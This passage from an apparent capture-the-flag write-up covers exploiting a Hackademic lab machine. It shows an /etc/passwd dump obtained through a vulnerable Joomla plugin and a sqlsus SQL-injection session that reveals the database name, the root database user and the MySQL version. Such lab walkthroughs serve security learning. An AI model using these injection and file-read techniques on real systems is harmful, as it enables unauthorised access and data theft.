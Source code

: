 ```
root@bt:~/hackademicr2/nbs03#
```

Just like that I knew the vulnerable plugin and the query string to exploit it.  This dumps:

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh syslog:x:101:103::/home/syslog:/bin/false messagebus:x:102:107::/var/run/dbus:/bin/false avahi-autoipd:x:103:110:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false avahi:x:104:111:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false couchdb:x:105:113:CouchDB Administrator,,,:/var/lib/couchdb:/bin/bash speech-dispatcher:x:106:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/sh usbmux:x:107:46:usbmux daemon,,,:/home/usbmux:/bin/false haldaemon:x:108:114:Hardware abstraction layer,,,:/var/run/hald:/bin/false kernoops:x:109:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false pulse:x:110:115:PulseAudio daemon,,,:/var/run/pulse:/bin/false rtkit:x:111:117:RealtimeKit,,,:/proc:/bin/false saned:x:112:118::/home/saned:/bin/false hplip:x:113:7:HPLIP system user,,,:/var/run/hplip:/bin/false gdm:x:114:120:Gnome Display Manager:/var/lib/gdm:/bin/false p0wnbox:x:1000:1000:p0wnbox,,,:/home/p0wnbox:/bin/bash mysql:x:115:123:MySQL Server,,,:/var/lib/mysql:/bin/false 
```

Playing around with sqlsus, we find:

```
root@bt:/pentest/database/sqlsus# ./sqlsus hackr2.conf 

              sqlsus version 0.7.2

  Copyright (c) 2008-2011 Jérémy Ruffet (sativouf)

[+] Session "192.168.1.75" created
sqlsus> start
[+] Correct number of columns for UNION : 1 (1)
[+] Length restriction on URL : 8200 bytes                      
[+] Filling %target...
+----------+--------------------+
| Variable | Value              |
+----------+--------------------+
| database | joomla             |
| user     | 'root'@'localhost' |
| version  | 5.1.41-3ubuntu12.8 |
+----------+--------------------+
3 rows in set 

sqlsus> 
```

And for reference:
